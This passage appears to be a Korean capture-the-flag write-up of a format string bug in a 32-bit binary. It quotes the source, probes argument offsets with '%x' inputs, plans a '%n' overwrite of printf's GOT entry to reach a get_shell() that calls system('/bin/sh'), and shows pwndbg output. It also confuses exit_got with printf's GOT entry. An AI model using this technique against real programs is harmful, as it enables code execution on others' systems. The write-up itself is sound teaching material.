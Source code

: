 ```C
void get_shell() {
    system("/bin/sh");
}
```

* 친절하게 `system("/bin/sh");`를 부를 수 있는 함수가 선언되어 있다.

```C
char *heap_buf = (char *)malloc(0x80);
char stack_buf[0x90] = {};
initialize();

read(0, heap_buf, 0x80);
```

* `read` 함수는 *heap_buf에 대한 크기에 대해서 read하기에 BOF가 불가능하다.

```C
sprintf(stack_buf, heap_buf);
printf("ECHO : %s\n", stack_buf);
```

* `sprintf()`의 일반 형태가 아니다. 따라서 **FSB**가 발생한다.

* FSB 이후의 함수가 호출되므로 `printf`가 GOT overwrite가 가능하다.

* 그리고, RAO라 했으므로 Return Address를 `get_shell`로 바꿀 수 있을 것으로 예상된다.

### 첫번째 시나리오

  * `sprintf(stack_buf, heap_buf);`를 통한 입력값 위치 확인

  * 해당 위치를 통한 `get_shell()` 주소 삽입

  * 주소 삽입은 형식 지정자를 통해서 진행

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/203476871-b8838767-d80e-49ea-92e6-0d314a432837.jpg" width = 450>
</p>

위처럼 `AAAA.%x.%x.%x.%x.%x`를 입력 했을 때이렇게 첫번째 `%x` 서식 문자에 우리가 입력한 **AAAA**를 인자로 받는 것을 알 수 있다.

포맷 스트링에서 참조할 인자의 인덱스를 지정하는 방법으로는 필드의 끝을 `$`로 표기하는 것이다. `printf()`로 특정 주소의 값을 변경할 수 있는 format은 `%n`으로 인자에 현재까지 사용된 문자열의 길이를 저장하는 것이 있다.

> payload = **`printf 주소`** + **`get_shell 주소`**

그렇다면, get_shell의 주소만큼의 문자열을 넣어 해당 값을 **`%n`**를 통해서 exit_got에 넣으면 된다. 

```sh
pwndbg> p get_shell
$1 = {<text variable, no debug info>} 0x8048669 <get_shell>
```

```armasm
   0x080486df <+99>:    call   0x8048460 <printf@plt>
pwndbg> x/3i 0x8048460
   0x8048460 <printf@plt>:      jmp    DWORD PTR ds:0x804a010
   0x8048466 <printf@plt+6>:    push   0x8
   0x804846b <printf@plt+11>:   jmp    0x8048440
```
